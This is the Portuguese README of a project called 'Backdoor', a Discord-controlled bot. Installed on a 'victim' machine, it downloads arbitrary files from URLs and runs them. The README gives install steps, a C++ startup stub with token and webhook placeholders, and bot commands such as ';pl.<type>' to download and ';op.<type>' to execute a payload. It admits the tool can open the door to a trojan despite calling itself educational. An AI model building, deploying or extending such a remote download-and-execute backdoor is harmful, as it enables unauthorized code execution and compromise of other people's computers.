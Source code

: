 # Backdoor

Esse projeto é uma API pública para fins educacionais que se assemelha a um backdoor.  
Você pode utilizá-la junto ao seu programa para realizar downloads e executar arquivos na máquina alvo.  
Isso pode abrir portas para um trojan, mas o objetivo deste projeto não é esse.  

## Instalação das Dependências

Este programa requer **DPP** e **cURL**.  
No Arch Linux, por exemplo, você pode instalá-los facilmente com o AUR:

```sh
yay -S dpp curl
```

    #include "network.hpp"
    
    int main() {
        std::string token = "SEU_TOKEN_AQUI";
        const std::string webhook_url = "SEU_WEBHOOK_AQUI";
        const std::string version = "1.3";

    network program(token, webhook_url, version);
    program.MAIN();
    program.perfomBot();

    return 0;
    }

OBS: O código acima é um exemplo e pode precisar de ajustes para funcionar corretamente.

ATENÇÃO: Se o sistema operacional da vítima não for Windows, o comando de execução do arquivo baixado precisará ser alterado.
Atualmente, ele usa o comando start do Windows. Para modificar, edite a linha 64 do arquivo network.hpp.

Comandos Básicos

Os comandos do bot são acionados pelo prefixo ;.
Segue a lista de comandos disponíveis:
Comando	Função
;shutDown	    Desliga o bot (não a máquina).
;deBugger on	Ativa o modo debug.
;deBugger off	Desativa o modo debug.
;version	    Mostra a versão do bot.
;add <grupo>	Adiciona o bot a um grupo específico.
;pl.<tipo>	    Baixa um arquivo da internet (png, exe, gif, etc.).
;op.<tipo>	    Abre um arquivo baixado.
;credits	    Exibe os créditos do projeto.
;devBot	        Link para configurar o bot no Discord.


Exemplo de Uso:

Para baixar um arquivo .png, envie:

;pl.Png https://example.com/imagem.png

Para abrir o arquivo baixado:

;op.Png
